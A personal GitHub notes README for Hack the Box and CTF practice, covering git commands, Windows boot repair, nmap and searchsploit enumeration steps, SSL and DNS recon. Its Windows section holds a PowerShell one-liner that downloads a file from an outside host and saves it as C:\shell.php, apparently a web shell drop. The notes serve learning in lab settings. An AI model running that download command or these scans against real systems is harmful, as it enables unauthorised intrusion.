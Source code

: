 Personal-Notes
===========================

> Example of how I take and store notes on github (copy this template) 

## Catalog
* [Git and Github](#git-and-github)
* [Windows](#windows)
* [CTF-tips](#tips-and-tricks)
* [Operating procedures](#operating-procedures)
* [HTTP procedures](#http)
* [Ssh procedures](#ssh)
* [Ftp procedures](#ftp)
* [MySQL procedures](#mysql)
* [Samba procedures](#samba)
* [Forensics procedures](#forensics)
* [After Initial Access procedures](#after-gaining-access)
* [Author](#author)


### Windows
* `Downloading a file with powershell`
	* `command`
	```
	powershell -Command "$c=new-object System.Net.WebClient;$c.DownloadFile('http://file.kaibro.tw/s','C:\shell.php')"
	```

* `Repairing boot drive`
	* `command`
	```
	navigate too boot with cmd
	bddedit // to view
	bcdedit /f /delete {xxxxxxxx}
	bcdboot c:\windows
	```  

### Git and Github
* `Creating a first repository`
	* create a new repository on the command line
	```
	echo "# demo" >> README.md
	git init
	git add README.md
	git commit -m "first commit"
	git branch -M main
	git remote add origin https://github.com/hackername/demo.git
	git push -u origin main
	```

	* push an existing repository from the command line
	```
	git remote add origin https://github.com/hackername/demo.git
	git branch -M main
	git push -u origin main
	```


* `Branches`
	```
	git branch newbranch - Creates a new branch
	git checkout newbranch - Changes to that branch
	git branch -vv
	git branch -d dev -delete dev branch
	Add or make changed
	git add .
	git commit -m 'Login added'
	git status - Check if changes were made and staging area is empty
	git checkout master - Switch back to master.login.html and stuff in the login         branch vanishes
	git push   => Pushes any changes made
	git merge login(while in master branch)
	```


* `General Commands`
	```
	echo 'First readme file ' > README.md
	git init
	git add README.md
	git commit -m 'first commit'
	git remote - Checks for remote repositories
	git remote add origin https://github.com/hackername/sample.git
	git push -u origin main/master
	git remote remove unwantedremote
	git push
	git pull
	git log
	git init - initalises a local git repository in a folder by creating a .git folder
	git add filename - Adds file to the index
	git status -   Checks the status of the workiing tree or staging area
	git rm cached filename - Removes a file from the staging area
	git commit - Commits changes to the index
	git commit -m 'Commit message goes here'  => Commiting without the editing part
	git push - Pushes to the remote repository
	git pull - Pulls latest changes ffrom remote repository
	git clone - Clones a repository into a new folder
	.gitignore file - Add the name of the file in this file and that file will be ignore during commits (e.g log files)
	```

### Hack the Box -  Tips and Tricks
* `tips`
    * Enumeration is Key
    * Be Organized and Document Everything
    * Do as much recon as possible
    * Keep amazing notes
    * Read writeups and watch videos
    * Set small predictable goals
    * Check other peoples methodology of doing the same thing
    * Learn from your weaknesses

* `links`
    * https://blog.nviso.eu/2020/02/13/my-journey-reaching-1-spot-on-hack-the-box-belgium-10-tips-tricks-and-lessons-learned/
    * https://infosecwriteups.com/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca
    * https://technicalnavigator.in/tips-tricks-for-htbhack-the-box/
    * https://bitvijays.github.io/LFC-VulnerableMachines.html (best)


## Operating procedures
- Find the ip in which the vm is operating using sudo arp-scan -l 
- Add the ip to /etc/hosts
- Also add the name of the box with a .box prefix to `/etc/hosts` e.g venom -> venom.box
- Find services running on the machine, start with a simple scan the go to a detailed scan
- Check all ports first with `nmap -Pn -p- stapler -vvv`
- Scan `common ports` using(`sudo nmap 10.10.147.248 -sC -sS -sV -vv`) and metasploit
- Scan `all ports` using (`sudo nmap 10.10.147.248 -p- -sC -sS -sV -vv`) and metasploit
- Check both `https/http` versions of the sites
- Check ssl info for machine `dnsinfo`
- Try to find exploits for the services found using `searchsploit`
- The name of the box could be a service,username,or password
- Check for vulnerabilities using the script option
- If a service is running on two ports, check both ports , they might be slightly different


### Enumerating ssl
```
- openssl s_client -connect defao.dkut.ac.ke:443 // Check subdomain ssl information for more enumeration with the following command
- You can use shodan to locate other ips using the same ssl cert
```

### DNS
```
host <domain> <optional_name_server>
host -t ns <domain>                 Name Servers
host -t a <domain>                  Address
host -t aaaa <domain>               AAAA record points a domain or subdomain to an IPv6 address
host -t mx <domain>                 Mail Servers
host -t soa <domain>                Start of Authority
host <IP>                           Reverse Lookup
host -l <Domain Name> <DNS Server>  Domain Zone Transfer
```


### Http
#### Enumeration guideline
* Check server/service versions, search exploits on searchsploit
* Check for usernames, shares etc.
* Generate wordlists with cewl and use it as passlist in case you have a username





### Author
* `Links`
	* [My Github](https://github.com/allannjuguna)
	* [My Twitter](https://github.com/xubzer0)
	* [My Blog](https://allannjuguna.github.io)